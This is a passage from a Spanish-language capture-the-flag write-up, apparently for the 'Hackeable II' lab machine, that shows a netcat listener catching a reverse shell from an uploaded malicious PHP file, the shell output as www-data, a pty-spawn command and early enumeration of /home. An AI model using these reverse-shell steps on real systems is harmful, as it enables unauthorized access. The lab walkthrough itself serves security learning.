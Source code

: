 ![](/assets/images/Hackeable_II/reverse_subida.png)

Antes de llamar al archivo para que se ejecute desde el navegador web nos pondremos por escucha por el puerto indicado en la reverse shell. 

Para ello utilizaremos netcat:

```
❯ nc -lvp 1234
listening on [any] 1234 ...

```

<br>Una vez llamemos al archivo php malicioso desde el navegador recibiremos la shell.

```
❯ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.64: inverse host lookup failed: Unknown host
connect to [192.168.1.84] from (UNKNOWN) [192.168.1.64] 34428
Linux ubuntu 4.4.0-194-generic #226-Ubuntu SMP Wed Oct 21 10:19:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:55:42 up  5:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

## Reconocimiento dentro del host

Podemos intentar spawnear una TTY con: `python3 -c 'import pty; pty.spawn("/bin/sh")'`. Una vez tengamos una terminal decente para trabajar nos dirigimos a `/home/` y vemos el siguiente resultado.

```
$ cd home 
cd home
$ ls
ls
important.txt  shrek

```
Podemos deducir que existe un usuario shrek donde dentro de su directorio se encuentra la primera flag `user.txt`, pero no tenemos permisos de lectura. <br>
<br>También podemos observar un fichero llamado `important.txt` si hacemos un cat para ver su contenido encontramos lo siguiente:
